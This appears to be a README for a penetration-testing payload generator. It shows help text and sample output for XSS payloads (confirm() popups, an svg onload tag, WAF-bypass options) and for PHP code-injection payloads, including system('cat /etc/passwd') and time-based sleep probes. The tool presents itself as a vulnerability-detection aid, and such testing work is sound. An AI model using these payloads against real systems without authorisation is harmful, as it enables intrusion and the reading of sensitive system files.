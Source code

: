 # Payload Generator
Payload Generator Tool. These payloads are only help to detect the vulnerability. 

- [x] XSS Payload Generation
- [ ] SSTI Payload Generation
- [ ] HTML Injection Payload Generation
- [ ] Open Redirection Payload Generation
- [ ] SQL Injection Payload Generation
- [ ] Command Injection Payload Generation
- [ ] SSI Injection Payload Generation
- [x] PHP Code Injection Payload Generation



## XSS Payloads

### Help

```bash
usage: generator.py xss [-h] [--popup] [--logger] [--oast] [--dom] [--ored] [--oast-domain] [--unique-string] [--waf] [--reverse-payloads] [--urlencode]

options:
  -h, --help          show this help message and exit

XSS Payload Types:
  --popup             Generate Popup Payloads
  --logger            Generate Console.log() Payloads
  --oast              Generate OAST Payloads
  --dom               Generate DOM Payloads
  --ored              Generate ORED Payloads

XSS Payload Options:
  --oast-domain       Set OAST Domain for payloads
  --unique-string     Set Unique String for testing

XSS Payload Mutations:
  --waf               Generate WAF Bypass Payloads
  --reverse-payloads  Generate Reverse Payloads
  --urlencode         Set URL Encoding for payload generator
```

### Generate Popup Payloads

```bash
python3 generator.py xss --popup 
confirm("yDrQfNiA5EdYHhmJIWMw")
confirm`yDrQfNiA5EdYHhmJIWMw`
(confirm`yDrQfNiA5EdYHhmJIWMw`)
{confirm`yDrQfNiA5EdYHhmJIWMw`}
[confirm`yDrQfNiA5EdYHhmJIWMw`]
(((confirm)))`yDrQfNiA5EdYHhmJIWMw`
new class extends confirm`yDrQfNiA5EdYHhmJIWMw`{}
["yDrQfNiA5EdYHhmJIWMw"].find(confirm)
[1337].map(confirm)
<svg/onload="confirm("yDrQfNiA5EdYHhmJIWMw")">
[...]
```

## PHP

### Help

```bash
usage: generator.py php [-h] [--oast-domain] [--unique-string] [--sleep-timeout] [--urlencode]

options:
  -h, --help        show this help message and exit

PHP CI Payload Options:
  --oast-domain     Set OAST Domain for payloads
  --unique-string   Set Unique String for testing
  --sleep-timeout   Set Sleep Timeout

PHP Payload Mutations:
  --urlencode       Set URL Encoding for payload generator
```


### Generate Payloads

```bash
system("cat /etc/passwd")
system("cat /etc/passwd");
;system("cat /etc/passwd");
<?php system("cat /etc/passwd"); ?>
system("sleep 17")
system("sleep 17");
;system("sleep 17");
<?php system("sleep 17"); ?>
system("timeout /T 17")
system("timeout /T 17");
;system("timeout /T 17");
<?php system("timeout /T 17"); ?>
system("echo PLmyJkJgSdo5iQ9lDAnH")
system("echo PLmyJkJgSdo5iQ9lDAnH");
;system("echo PLmyJkJgSdo5iQ9lDAnH");
<?php system("echo PLmyJkJgSdo5iQ9lDAnH"); ?>
[...]
```
